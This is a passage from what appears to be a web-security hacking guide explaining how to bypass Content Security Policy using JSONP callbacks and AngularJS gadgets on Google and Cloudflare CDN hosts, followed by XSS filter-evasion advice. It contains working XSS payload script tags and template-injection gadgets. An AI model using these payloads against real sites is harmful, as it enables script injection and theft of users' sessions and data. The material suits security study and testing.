The [cdnjs.cloudflare.com](https://cdnjs.cloudflare.com) or [ajax.googleapis.com](https://ajax.googleapis.com/) domains for example host **only specific** popular libraries which should be secure, but some have exploitable features. The most well-known is AngularJS, which a vulnerable site may also host themselves removing the need for a CDN. This library searches for specific patterns in the DOM which can define event handlers without the regular inline syntax. This bypasses the CSP and can allow arbitrary JavaScript execution by loading such a library, and including your own malicious content in the DOM:

<pre class="language-html"><code class="lang-html">&#x3C;!-- *.googleapis.com -->
<strong>&#x3C;script src="https://www.googleapis.com/customsearch/v1?callback=alert(document.domain)">&#x3C;/script>
</strong>&#x3C;!-- *.google.com -->
<strong>&#x3C;script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1337)">&#x3C;/script>
</strong>&#x3C;!-- ajax.googleapis.com (click) + maps.googleapis.com (no click) -->
<strong>&#x3C;script src=https://ajax.googleapis.com/ajax/libs/angularjs/1.8.2/angular.min.js>&#x3C;/script>
</strong><strong>&#x3C;div ng-app ng-csp id=x ng-click=$event.view.alert($event.view.document.domain)>&#x3C;/div>
</strong><strong>&#x3C;script async src=https://maps.googleapis.com/maps/api/js?callback=x.click>&#x3C;/script>
</strong>&#x3C;!-- cdnjs.cloudflare.com -->
<strong>&#x3C;script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js">&#x3C;/script>
</strong><strong>&#x3C;script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js">&#x3C;/script>
</strong><strong>&#x3C;div ng-app ng-csp>{{$on.curry.call().alert($on.curry.call().document.domain)}}&#x3C;/div>
</strong></code></pre>

Loading any of these blocks in a CSP that allows it, will trigger the `alert(document.domain)` function. A common pattern for finding these bypasses is using Angular to create an environment where code can be executed from **event handlers**, and then another library or callback function to **click** on the element, triggering the handler with your malicious code. See [jsonp.txt](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt) for a not-so-updated list of public JSONP endpoints you may find useful.&#x20;

### Filter Bypasses

Some of the most useful and common filter bypasses are shown in [#common-filter-bypasses](cross-site-scripting-xss.md#common-filter-bypasses "mention").

If a server is checking your input for suspicious strings, they will have a hard time as there are many ways to obfuscate your payloads. Even a simple `<a href=...>` tag has many places where the browser allows special and unexpected characters, which may break the pattern the server is trying to search for. Here is a clear diagram showing _where_ you can insert _what_ characters:

<figure><figcaption><p>XSS mutation points with possible special characters (<a href="https://twitter.com/hackerscrolls/status/1273254212546281473?s=21">source</a>)</p></figcaption></figure>

The XSS Cheat Sheet by PortSwigger has an extremely comprehensive list of all possible tags, attributes, and browsers that allow JavaScript execution, with varying levels of user interaction:


Filterable list of almost every imaginable HTML that can trigger JavaScript


You can use the above list to filter certain tags you know are allowed/blocked, and copy all payloads for fuzzing using a tool to find what gets through a filter.&#x20;
